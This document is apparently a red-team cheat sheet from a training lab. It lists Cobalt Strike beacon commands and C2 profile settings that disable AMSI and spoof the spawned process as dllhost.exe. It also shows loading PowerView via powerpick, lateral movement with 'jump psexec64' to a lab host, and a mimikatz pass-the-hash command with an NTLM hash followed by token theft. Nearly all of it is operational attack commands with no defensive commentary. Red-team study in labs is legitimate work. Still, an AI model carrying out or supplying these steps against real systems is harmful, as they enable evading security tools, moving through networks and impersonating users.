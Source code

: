 # Settings for C2

```bash
# -- For reflective loader/beacon DLL bypass --

post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

---

# Spawning to a new process manually

```bash
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe

# Check the process name
powerpick Get-Process -Id $pid | select ProcessName

# Now we should be able to use powerpick
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
powerpick Get-Domain

# To revert back to the original ProcessName
spawnto
```

---

# Jumping with psexec

```bash
# Set the settings for the target dll
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

# Jump to the target
jump psexec64 fs.dev.cyberbotic.io smb
```

---

# Passing the hash to imperonate a user (lateral movement) (Command Line Detection bypass)

```bash
mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe
steal_token 17896
```

